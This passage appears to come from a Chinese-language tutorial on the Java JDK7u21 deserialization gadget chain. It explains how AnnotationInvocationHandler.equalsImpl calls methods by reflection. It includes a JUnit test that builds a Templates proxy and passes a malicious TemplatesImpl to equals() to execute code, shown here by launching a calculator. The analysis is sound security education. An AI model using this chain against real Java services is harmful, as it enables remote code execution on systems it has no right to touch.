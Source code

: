 跟入后可以看到，首先获取 `type` Class 所有声明的方法，然后在参数 Object o 上使用反射调用方法，因此前面所说 **TemplatesImpl** 实例是需要作为参数传入

```java
     private Boolean equalsImpl(Object o) {
        // o 需要为 type 的实例
        if (!this.type.isInstance(o)) {
            return false;
        } 
        ...
        // 获取到 type Class 的方法
        for (Method memberMethod : getMemberMethods()) {
            ...
            AnnotationInvocationHandler hisHandler = asOneOfUs(o);
            if (hisHandler != null) {
                hisValue = hisHandler.memberValues.get(member);
            } else {
                // 反射调用方法
                hisValue = memberMethod.invoke(o);
            }
        }
        return true;
    }
```

理一下思路

1. 根据 **TemplatesImpl** 部分的说明，创建一个包含恶意代码的 TemplatesImpl 实例 `evilTemplates`
2. 使用 AnnotationInvocationHandler 创建 proxy object 代理 Templates 接口 (会使用到反射)
3. 调用 proxy object 的 `equals`  方法，将 `evilTemplates` 作为参数

示例代码如下，运行即可弹出计算器

```java
    @Test
    public void testTemplateImpl() throws Exception {
        Map map = new HashMap();
        //  AnnotationInvocationHandler 构造方法为 package private，需要使用反射创建实例
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        // 构造 payload 时，因为新版 jdk 对 type 参数做了校验，必须为 Annotation
        // 为了不报错，所以设置为任意一个 Annotation，再用反射修改 type 参数
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Override.class, map);
        // 反射设置属性值
        setFieldValue(invocationHandler, "type", Templates.class);
        // 代理 Tempaltes 接口
        Templates proxy = (Templates) Proxy.newProxyInstance(InvocationHandler.class.getClassLoader(), new Class[]{Templates.class}, invocationHandler);
        // 获取包含恶意代码的 Templates 对象
        Templates evilTemplates = getEvilTemplates();
        // 触发恶意代码执行
        proxy.equals(evilTemplates);
    }
```
